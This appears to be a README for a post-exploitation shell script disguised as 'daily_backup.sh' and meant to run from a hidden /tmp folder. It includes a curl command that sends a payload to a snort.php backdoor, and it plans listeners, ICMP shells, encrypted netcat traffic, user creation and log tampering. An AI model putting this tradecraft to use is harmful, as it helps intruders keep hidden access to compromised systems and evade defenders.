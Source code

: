 # Post Exploitation Shell Script

## Supported Distributions
 - Kali 1.1.0, CentOS 6.5, Ubuntu 14.04.2

## Running the scripts
 - $ mkdir -p /tmp/.root/.home/.user/
 - $ mv daily_backup.sh /tmp/.root/.home/.user/
 - $ chmod u+x daily_backup.sh
 - $ ./daily_backup.sh -i "Obfuscated IP"

 - You can test snort.php with the following
 - -> $ curl -d "eFh4R2VuPE93bmVkIEJ5IEcwZHoxbGw0PkdlbnhYeA==" -A "H4x0r Lit3 - Ph0n3H0m3 v1.0"  http://localhost/snort.php

## TODO
### Bugs:
   - Backup shell errors, needs to be worked on
   - Generated Scripts may need some work, polishing, fixing
   - Copying .history/.bash_history every run is a little excessive
   - Fix script to check for addUser command from snort.php and fix script to execute the command
   - Took out bash listeners since I cannot background the bash listeners
   - Took out netcat listners due to issues (Will fix and add in later)
   - [De]obsufscation of IP Address is broken, temporarily taken out until fixed -- Normal Deobf/Obf functions work

### Feature Requests:
   - Create variations of th script to match the level of threat actor
   - e.g. - level 0/1 - Script Kiddie, no tracks covering
   -        level X - Quiet, no history deletion, logs modified, etc. 
   - Use ICMPShell?
   - Encrypt nc/shell traffic?

### Cleanup:
   - Fix formatting
   - Add comments/Remove comments
   - Speed up processing time.

## Acknowledgements/Contributors
  - Special thanks to Justin Wray (Synister Syntax)
